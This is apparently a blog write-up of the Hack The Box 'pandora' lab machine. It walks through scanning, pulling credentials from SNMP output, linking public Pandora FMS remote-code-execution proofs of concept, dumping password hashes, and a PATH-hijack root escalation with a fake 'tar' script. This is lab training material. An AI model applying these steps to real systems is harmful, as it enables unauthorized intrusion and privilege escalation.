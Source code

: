 ```yaml
---
layout: post
title: HTB - pandora
date: 2025-03-09 09:00 -0400
---
```


{{ 'pandora' | get_machine_avatar | raw }}

## nmap
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-25 15:39 -04
Nmap scan report for 10.10.11.136
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24c295a5c30b3ff3173c68d7af2b5338 (RSA)
|   256 b1417799469a6c5dd2982fc0329ace03 (ECDSA)
|_  256 e736433ba9478a190158b2bc89f65108 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```

## main page
![panda.htb](/assets/img/pandora1.png)

- default apache 404 page
![panda.htb](/assets/img/pandora2.png)

emails:
- support@panda.htb
- contact@panda.htb

domains
- Panda.HTB

subdomain bruteforce shows nothing.
```bash
~/workspace/projects/htb/pandora » ffuf -u http://$(cat ip.txt)/ -H 'Host: FUZZ.panda.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.136/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.panda.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: all
________________________________________________

:: Progress: [4990/4990] :: Job [1/1] :: 100 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
```

Contact seems to be the only feature that works. Looks a lot like xss but it isn't working.
Directory listings are enabled but there is nothing interesting in it.
Next step is looking through the js files. Also nothing.

Time to check udp.

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-25 16:13 -04
Warning: 10.10.11.136 giving up on port because retransmission cap hit (10).
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.16s latency).
Not shown: 65456 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 73.80 seconds
```

Cool, nmap found something.

```bash
~/workspace/projects/htb/pandora » sudo nmap -p161 --script='*snmp*' -sU $(cat ip.txt) --min-rate 10000
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-25 16:15 -04
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.26s latency).

Bug in snmp-win32-software: no string output.
PORT    STATE SERVICE
161/udp open  snmp
...
| snmp-brute:
|_  public - Valid credentials
...

Nmap done: 1 IP address (1 host up) scanned in 65.01 seconds
```

Now we dump everything with: `snmpbulkwalk -c public -v2c panda.htb` and maybe there are some creds somewhere here.

These look a lot like creds.
```bash
HOST-RESOURCES-MIB::hrSWRunParameters.1086 = STRING: "-u daniel -p HotelBabylon23"
```

And that gives us the daniel shell but no user flag.
```bash
daniel@pandora:~$ cat /etc/passwd | grep /bash
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```

```bash
matt@pandora:/tmp/tmp.44zbQs0ont# cat ~/user.txt
a162c***************************
```

So matt is probably our next target.

Interesting files on `/var/www/pandora/pandora_console/`.
![pandora console](/assets/img/pandora3.png)

Seems to be using [pandorafms](https://github.com/pandorafms/pandorafms.git) from the Dockerfile.

Looks like there is an RCE with a public poc. [POC](https://www.exploit-db.com/exploits/50961). Doesn't seem to work.

This second one does. [POC1](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated)

Will try to bruteforce the hashes just in case matt's password is needed.
```bash
[*] None,admin@pandora.htb,ad3f741b04bd5880fb32b54bc4f43d6a
[*] None,daniel@pandora.htb,76323c174bd49ffbbdedf678f6cc89a6
[*] None,matt@pandora.htb,f655f807365b6dc602b31ab3d6d43acc
```

Nothing on crackstation.
![crackstation](/assets/img/pandora6.png)

Nothing on hashcat either.

There is an interesting suid binary.
```bash
262929     20 -rwsr-x---   1 root     matt        16816 Dec  3  2021 /usr/bin/pandora_backup
```

At first I thought I needed matt's password to run with sudo, but that is not the case.

Looking at ghidra we can see a `setreuid` call. That makes so matt keeps the root privilege when running normally.
![ghidra bin](/assets/img/pandora8.png)

And the actual bug is on `system()`. It doesn't specify a path so we can just change PATH to any script called tar.
```bash
cd $(mktemp -d)
export PATH=$(realpath .):/bin/:/usr/bin
echo 'cat /root/root.txt > /tmp/flag' > tar
chmod +x tar
/usr/bin/pandora_backup
root@pandora:/tmp/tmp.44zbQs0ont# cat ../flag
# e458b***************************
```
